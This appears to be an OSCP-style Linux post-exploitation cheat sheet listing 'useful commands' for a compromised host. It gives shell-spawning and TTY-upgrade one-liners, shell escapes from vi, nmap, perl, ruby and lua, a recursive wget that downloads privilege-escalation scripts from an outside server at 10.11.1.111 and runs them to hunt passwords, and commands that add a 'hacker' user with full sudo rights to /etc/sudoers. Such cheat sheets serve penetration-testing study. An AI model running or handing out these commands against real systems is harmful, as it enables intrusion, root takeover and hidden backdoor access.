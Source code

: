 ### Useful commands

```
# Spawning shell
python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/sh")'
V
Ctrl+Z
stty raw -echo
fg
reset
Ctrl+Z
stty size
stty -rows 48 -columns 120
fg

echo os.system('/bin/bash')
/bin/sh -i
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
(From within vi)
:!bash
:set shell=/bin/bash:shell
(From within nmap)
!sh

# Access to more binaries
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Set up webserver
cd /root/oscp/useful-tools/privesc/linux/privesc-scripts; python -m SimpleHTTPServer 8080

# Download all files
wget http://10.11.1.111:8080/ -r; mv 10.11.1.111:8080 exploits; cd exploits; rm index.html; chmod 700 LinEnum.sh linprivchecker.py unix-privesc-check

./LinEnum.sh -t -k password -r LinEnum.txt
python linprivchecker.py extended
./unix-privesc-check standard

# Writable directories
/tmp
/var/tmp

# Add user to sudoers
useradd hacker
passwd hacker
echo "hacker ALL=(ALL:ALL) ALL" >> /etc/sudoers
```
